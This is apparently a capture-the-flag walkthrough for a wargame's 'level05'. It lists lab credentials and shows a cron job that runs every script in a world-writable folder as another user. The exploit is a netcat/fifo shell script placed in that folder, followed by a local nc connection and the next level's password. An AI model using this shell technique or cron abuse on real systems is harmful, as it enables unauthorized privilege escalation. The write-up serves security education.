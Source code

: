 # LEVEL 05

> [!TIP]
> user: `level05` <br>
> pass: `ne2searoevaevoem4ov4ar8ap`

## STEP 01

As we log in, a message appear to us

`You have new mail.`

According to this [link](https://superuser.com/a/306180), email can be found at
**/var/mail/$USER**

## STEP 02

Executing `cat /var/mail/$USER` output a cron job, running every 2 minutes
and pointing in to `/usr/sbin/openarenaserver`

```bash
cat /var/mail/level05
#*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
cat /usr/sbin/openarenaserver
##!/bin/sh
#
#for i in /opt/openarenaserver/* ; do
#        (ulimit -t 5; bash -x "$i")
#        rm -f "$i"
#done
```

Making a quick ls show us the permission of the folder mentioned in the script
above

```bash
ls -la /opt/openarenaserver
#drwxrwxr-x+ 2 root root 40 Dec  2 02:10 .
```

> [!NOTE]
> The security issue could be perhaps, this ugly for loop with this blob that
> execute everything in the folder `/opt/openarenaserver`, with a limit of 5 fd,
> that is writable to other user

## STEP 03

1. creating a little script

```bash
#!/bin/bash

# remove previous fifo
rm -f /tmp/f
# make fifo file
mkfifo /tmp/f
# 1. output any input, from fifo, to
# 2. bash, outputing STDOUT and STDERR to
# 3. nc listening on everything, on port 4444, output all ouput to fifo
cat /tmp/f | /bin/bash -i 2>&1 | nc -l 0.0.0.0 4444 > /tmp/f
```

2. put it in **/opt/openarenaserver**, and wait
for it to be deleted

> [!WARNING]
> Don't forget to make it executable by `chmod +x` it

3. quickly do a `nc localhost 4444` to have a shell

> [!TIP]
> you can do a `watch -n2 ls -la /opt/openarenaserver` to monitor the folder

> [!IMPORTANT]
> the password for the next level is `viuaaale9huek52boumoomioc`
